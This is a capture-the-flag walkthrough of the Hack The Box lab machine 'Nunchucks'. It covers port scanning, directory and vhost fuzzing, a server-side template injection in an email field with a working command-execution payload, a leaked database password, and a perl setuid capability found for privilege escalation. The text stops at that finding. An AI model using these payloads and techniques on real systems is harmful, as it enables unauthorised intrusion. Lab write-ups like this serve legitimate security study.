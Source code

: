 Start enumerating with rustscan 2.0.0
```
rustscan -a 10.10.11.122
```
Open Ports
```
Open 10.10.11.122:22
Open 10.10.11.122:80
Open 10.10.11.122:443
```
NMAP Scan for services and versions
```
sudo nmap -sV -p 80,443,22 10.10.11.122
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-22 15:49 GMT
Nmap scan report for 10.10.11.122
Host is up (0.0046s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:li
```
Web server redirects to port 443 when trying to acess port 80

So just start enumerating with ferobuster to find hidden directories on port 443
```
./feroxbuster -w raft-large-directories.txt --url https://10.10.11.122 -k --silent
https://10.10.11.122/
https://10.10.11.122/login
https://10.10.11.122/assets => /assets/
https://10.10.11.122/Login
https://10.10.11.122/assets/js => /assets/js/
https://10.10.11.122/assets/css => /assets/css/
https://10.10.11.122/assets/images => /assets/images/
https://10.10.11.122/privacy
https://10.10.11.122/signup
https://10.10.11.122/terms
https://10.10.11.122/Assets => /Assets/
https://10.10.11.122/Assets/css => /Assets/css/
https://10.10.11.122/Assets/images => /Assets/images/
https://10.10.11.122/Assets/js => /Assets/js/
https://10.10.11.122/Privacy
https://10.10.11.122/Terms
https://10.10.11.122/Signup
```
Nothing interesting so I fuzz vhosts
```
ffuf -w subdomains-top1million-110000.txt -u https://nunchucks.htb -H "Host: FUZZ.nunchucks.htb" -fs 30589

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://nunchucks.htb
 :: Wordlist         : FUZZ: subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.nunchucks.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 30589
________________________________________________

store                   [Status: 200, Size: 4029, Words: 1053, Lines: 102]
```
Found a sub domain at store.nunchucks.htb

Web server has ssti vulnverability in "email" parameter
```
Requests

{"email":"{{7*7}}@htb.org"}

Response

{"response":"You will receive updates on the following email address: 49@htb.org."}
```
Request Header
```
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 27
DNT: 1
Connection: keep-alive
Cookie: _csrf=Tq_qR2QxRfBNVi5JncWUOntN
Sec-GPC: 1
```
SSTI Injection Payload
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('whoami')\")()}}
```
Found SQL Database
```
  host     : 'localhost',
  user     : 'newsletter_admin',
  password : 'StoreNLetters2021',
  database : 'newsletters'
```
Runnng linpeas I find files with capabilites specifically perl with the capability to suid
```
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
